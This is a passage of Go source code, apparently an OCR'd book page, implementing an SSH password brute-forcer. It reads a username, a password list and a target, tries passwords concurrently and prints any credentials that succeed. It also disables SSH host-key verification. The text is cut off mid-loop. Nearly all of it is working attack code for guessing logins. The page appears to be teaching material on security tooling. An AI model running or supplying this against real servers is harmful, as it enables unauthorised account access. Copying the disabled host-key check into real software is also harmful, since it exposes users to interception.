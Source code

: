 ```go
      printUsage() 
      os.Exit(1) 
   } 

   // Username, Password list filename, URL 
   return os.Args[1], os.Args[2], os.Args[3] 
} 

func testSSHAuth(url, username, password string, doneChannel chan bool) { 
   sshConfig := &ssh.ClientConfig{ 
      User: username, 
      Auth: []ssh.AuthMethod{ 
         ssh.Password(password), 
      }, 
      // Do not check server key 
      HostKeyCallback: ssh.InsecureIgnoreHostKey(), 

      // Or, set the expected ssh.PublicKey from remote host 
      //HostKeyCallback: ssh.FixedHostKey(pubkey), 
   } 

   _, err := ssh.Dial("tcp", url, sshConfig) 
   if err != nil { 
      // Print out the error so we can see if it is just a failed   
      // auth or if it is a connection/name resolution problem. 
      log.Println(err) 
   } else { // Success 
      log.Printf("Success!\nUser: %s\nPassword: %s\n", username,   
      password) 
      os.Exit(0) 
   } 

   doneChannel <- true // Signal another thread spot has opened up 
} 

func main() { 

   username, pwListFilename, url := checkArgs() 

   // Open password list file 
   passwordFile, err := os.Open(pwListFilename) 
   if err != nil { 
      log.Fatal("Error opening file. ", err) 
   } 
   defer passwordFile.Close() 

   // Default split method is on newline (bufio.ScanLines) 
   scanner := bufio.NewScanner(passwordFile) 

   doneChannel := make(chan bool) 
   numThreads := 0 
   maxThreads := 2 

   // Check each password against url 
   for scanner.Scan() { 
      numThreads += 1 

      password := scanner.Text() 
      go testSSHAuth(url, username, password, doneChannel) 

      // If max threads reached, wait for one to finish before continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
```